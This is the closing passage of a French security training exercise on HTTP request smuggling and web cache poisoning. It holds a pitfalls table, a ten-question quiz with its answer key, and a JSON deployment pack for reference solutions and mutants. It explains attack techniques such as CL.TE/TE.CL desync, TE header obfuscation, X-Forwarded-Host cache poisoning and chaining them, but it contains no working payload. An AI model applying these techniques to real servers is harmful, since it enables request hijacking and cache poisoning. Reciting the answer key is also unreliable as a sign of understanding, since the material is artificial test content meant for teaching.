| **Red Team** | Accès aux endpoints internes via smuggling |
| **Blue Team** | Configuration des WAF pour détecter les patterns |
| **DevSecOps** | Audit des configurations Nginx/HAProxy |

---

## ⚠️ SECTION 6 : PIÈGES — RÉCAPITULATIF

| # | Piège | Conséquence | Solution |
|---|-------|-------------|----------|
| 1 | Confondre CL.TE / TE.CL | Payload inefficace | Comprendre qui lit quoi |
| 2 | Utiliser `\n` au lieu de `\r\n` | Requête mal formée | Toujours CRLF |
| 3 | Oublier TE.TE | Rater une vulnérabilité | Tester les variants |
| 4 | Ignorer le cache | Rater l'amplification | Analyser les unkeyed headers |
| 5 | Mauvais calcul Content-Length | Payload tronqué/étendu | Calculer précisément |
| 6 | Ne pas chaîner les attaques | Impact limité | Combiner smuggling + cache |

---

## 📝 SECTION 7 : QCM

### Question 1
**Dans une vulnérabilité CL.TE, que signifie "CL.TE" ?**

- A) Content-Length côté client, Transfer-Encoding côté serveur
- B) Frontend utilise Content-Length, Backend utilise Transfer-Encoding
- C) Cache utilise Content-Length, Target utilise Encoding
- D) Content-Length est transféré encodé
- E) Chunked-Length avec Transfer-Encoding
- F) Le contraire de TE.CL toujours
- G) Content-Length n'est pas utilisé du tout
- H) Transfer-Encoding est ignoré partout
- I) Les deux headers sont équivalents
- J) Aucune des réponses ci-dessus

**Réponse : B**

---

### Question 2
**Quel header permet généralement le cache poisoning via unkeyed injection ?**

- A) Authorization
- B) Cookie
- C) X-Forwarded-Host
- D) Content-Type
- E) User-Agent (toujours keyed)
- F) Accept-Language
- G) Cache-Control
- H) Host (toujours keyed)
- I) Origin
- J) Referer

**Réponse : C**

---

### Question 3
**Dans un payload CL.TE, que représente "0\r\n\r\n" ?**

- A) Zéro octet de Content-Length
- B) La fin d'un chunk (chunked encoding terminator)
- C) Un commentaire HTTP
- D) Un header vide
- E) Une erreur de syntaxe
- F) Le début du body
- G) Un timeout
- H) Une redirection
- I) Un code d'erreur
- J) Rien, c'est ignoré

**Réponse : B**

---

### Question 4
**Comment détecter une vulnérabilité CL.TE par timing ?**

- A) Envoyer une requête et mesurer le temps de réponse normal
- B) Envoyer une requête avec CL > body réel et observer un délai
- C) Envoyer plusieurs requêtes simultanées
- D) Utiliser un scanner automatique uniquement
- E) Analyser les logs serveur
- F) Vérifier les headers de réponse
- G) Tester avec différents User-Agents
- H) Modifier le Content-Type
- I) Envoyer des requêtes TRACE
- J) Observer les erreurs 400

**Réponse : B**

---

### Question 5
**Qu'est-ce qu'une attaque "Request Hijacking" via smuggling ?**

- A) Voler le cookie d'un utilisateur directement
- B) Faire que la requête d'un autre utilisateur soit préfixée par du contenu attaquant
- C) Rediriger tout le trafic vers l'attaquant
- D) Intercepter les communications HTTPS
- E) Modifier le DNS
- F) Injecter un keylogger
- G) Exploiter une faille XSS classique
- H) Brute-forcer les credentials
- I) Scanner les ports ouverts
- J) Exploiter une RCE

**Réponse : B**

---

### Question 6
**Quelle est la principale différence entre TE.CL et CL.TE ?**

- A) L'un utilise HTTP/2, l'autre HTTP/1.1
- B) L'ordre des priorités Frontend/Backend est inversé
- C) TE.CL utilise le chiffrement, CL.TE non
- D) CL.TE fonctionne seulement sur Apache
- E) TE.CL nécessite JavaScript
- F) Les payloads sont identiques
- G) CL.TE est plus ancien
- H) TE.CL est considéré non exploitable
- I) Ils ont le même comportement
- J) La différence est purement théorique

**Réponse : B**

---

### Question 7
**Qu'est-ce que TE.TE avec obfuscation ?**

- A) Double Transfer-Encoding identique
- B) Un variant de TE qui est interprété différemment (ex: "xchunked")
- C) Transfer-Encoding chiffré
- D) Une technique de compression
- E) Un bug spécifique à Nginx
- F) Une méthode de détection uniquement
- G) Un type de cache poisoning
- H) Un header personnalisé
- I) Une extension du protocole HTTP/2
- J) Un mécanisme de défense

**Réponse : B**

---

### Question 8
**Pourquoi HTTP/2 était censé résoudre le smuggling ?**

- A) Il utilise le chiffrement obligatoire
- B) Il utilise des frames binaires avec taille explicite au lieu de CL/TE
- C) Il bloque automatiquement les attaques
- D) Il n'autorise pas les POST requests
- E) Il valide tous les headers côté client
- F) Il n'existe pas de cache avec HTTP/2
- G) Les proxies HTTP/2 sont plus sécurisés par design
- H) Le protocole est trop nouveau pour être attaqué
- I) Les navigateurs bloquent le smuggling HTTP/2
- J) HTTP/2 n'utilise pas de headers

**Réponse : B**

---

### Question 9
**Qu'est-ce qu'un "cache key" dans le contexte du cache poisoning ?**

- A) Une clé de chiffrement pour le cache
- B) L'identifiant unique utilisé pour indexer une réponse en cache
- C) Un cookie de session
- D) Un token JWT
- E) L'adresse IP du serveur cache
- F) Le timestamp de la requête
- G) Le nom du fichier en cache
- H) Une clé SSH pour le serveur
- I) Un certificat SSL
- J) Un header obligatoire

**Réponse : B**

---

### Question 10
**Quelle est la mitigation la plus efficace contre le HTTP smuggling ?**

- A) Utiliser HTTPS
- B) Bloquer toutes les requêtes POST
- C) Utiliser HTTP/2 end-to-end ou normaliser le parsing CL/TE
- D) Augmenter la taille du timeout
- E) Désactiver le cache
- F) Utiliser un CDN
- G) Implémenter un CAPTCHA
- H) Limiter le rate limiting
- I) Utiliser des headers personnalisés
- J) Activer les logs détaillés

**Réponse : C**

---

## 📊 SECTION 8 : RÉCAPITULATIF

| Élément | Valeur |
|---------|--------|
| **Exercice** | 3.3.10-a HTTP Smuggling & Cache Attacks |
| **Difficulté** | ★★★★★★★★★☆ (9/10) |
| **XP Base** | 500 |
| **XP Bonus (🔥)** | ×6 = 3000 |
| **Concepts clés** | CL.TE, TE.CL, TE.TE, Cache Poisoning, Host Header |
| **CWE** | CWE-444 (HTTP Request Smuggling) |
| **OWASP** | A05:2021 Security Misconfiguration |
| **Temps** | ~5h |

---

## 📦 SECTION 9 : DEPLOYMENT PACK

```json
{
  "deploy": {
    "hackbrain_version": "5.5.2",
    "engine_version": "v22.1",
    "exercise_slug": "3.3.10-a-http_smuggling_cache_attacks",
    "generated_at": "2026-01-11T00:00:00Z",

    "metadata": {
      "exercise_id": "3.3.10-a",
      "exercise_name": "http_smuggling_cache_attacks",
      "module": "3.3.10",
      "module_name": "HTTP Smuggling & Cache Attacks",
      "concept": "a",
      "concept_name": "HTTP Request Smuggling & Web Cache Poisoning",
      "type": "code",
      "tier": 1,
      "tier_info": "Concept isolé",
      "phase": 3,
      "difficulty": 9,
      "difficulty_stars": "★★★★★★★★★☆",
      "language": "rust",
      "language_version": "Edition 2024",
      "duration_minutes": 300,
      "xp_base": 500,
      "xp_bonus_multiplier": 6,
      "bonus_tier": "GÉNIE",
      "bonus_icon": "🧠",
      "complexity_time": "T3 O(n²)",
      "complexity_space": "S2 O(n)",
      "prerequisites": ["3.3.1", "3.3.2", "HTTP/1.1", "Reverse Proxy"],
      "domains": ["Net", "Crypto", "Struct"],
      "domains_bonus": ["DP"],
      "tags": ["smuggling", "cache", "http", "web", "security"],
      "meme_reference": "Inception",
      "cwe_ids": ["CWE-444", "CWE-525"],
      "owasp_category": "A05:2021"
    },

    "files": {
      "spec.json": "/* Section 4.9 */",
      "references/ref_solution.rs": "/* Section 4.3 */",
      "references/ref_solution_bonus.rs": "/* Section 4.6 */",
      "alternatives/alt_state_machine.rs": "/* Section 4.4 */",
      "mutants/mutant_a_boundary.rs": "/* Section 4.10 */",
      "mutants/mutant_b_safety.rs": "/* Section 4.10 */",
      "mutants/mutant_c_resource.rs": "/* Section 4.10 */",
      "mutants/mutant_d_logic.rs": "/* Section 4.10 */",
      "mutants/mutant_e_return.rs": "/* Section 4.10 */",
      "mutants/mutant_f_edge_case.rs": "/* Section 4.10 */",
      "tests/main.rs": "/* Section 4.2 */"
    },

    "validation": {
      "expected_pass": [
        "references/ref_solution.rs",
        "references/ref_solution_bonus.rs",
        "alternatives/alt_state_machine.rs"
      ],
      "expected_fail": [
        "mutants/mutant_a_boundary.rs",
        "mutants/mutant_b_safety.rs",
        "mutants/mutant_c_resource.rs",
        "mutants/mutant_d_logic.rs",
        "mutants/mutant_e_return.rs",
        "mutants/mutant_f_edge_case.rs"
      ]
    },

    "commands": {
      "validate_spec": "python3 hackbrain_engine_v22.py --validate-spec spec.json",
      "test_reference": "cargo test --release",
      "test_mutants": "python3 hackbrain_mutation_tester.py -r references/ref_solution.rs -s spec.json --validate"
    }
  }
}
```

---

*"We need to go deeper!" — HTTP Smuggling est comme Inception : chaque couche de l'architecture a sa propre réalité, et l'exploit se cache dans les différences d'interprétation.*

*HACKBRAIN v5.5.2 — L'excellence n'a pas de raccourcis*
